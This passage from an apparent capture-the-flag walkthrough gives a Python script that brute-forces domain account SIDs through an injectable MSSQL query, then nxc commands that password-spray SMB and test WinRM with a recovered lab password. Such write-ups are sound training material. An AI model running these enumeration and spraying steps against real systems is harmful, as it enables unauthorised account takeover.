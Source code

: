 ```python


print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")

for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)
```

After running the script we get a lot of new users back. After cleaning this list, we can try again a password-spray and, luckily, this time we get a hit back (Figure 17).

{% tabs %}
{% tab title="1. Domain users list" %}
```bash
# execute the script
./brute_force_sids.py
# copy and paste the results to a file
nano script_users
# extract usernames
cat script_users | cut -d"\\" -f2 > sid_users
# manually remove junk lines
nano sid_users
```
{% endtab %}

{% tab title="2. Password Spray" %}
{% code overflow="wrap" %}
```bash
# password spray
nxc smb 10.10.10.179 -u sid_users -p clear_passwords | grep +
# write password to a file
echo "finance1" > tushi_pass
# check winrm access
nxc winrm 10.10.10.179 -u tushikikatomo -p tushi_pass
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_password_spray_tushi.png" alt=""><figcaption><p>Figure 17: Password spraying reveals credentials for a new user.</p></figcaption></figure>


[^1]: Elevation of Privileges
[^2]: Living Off The Land
[^3]: Elevation of Privileges
[^4]: Proof of Concept
[^5]: Living Off The Land
[^6]: Elevation of Privileges
[^7]: Living Off The Land
[^8]: Elevation of Privileges
[^9]: Living Off The Land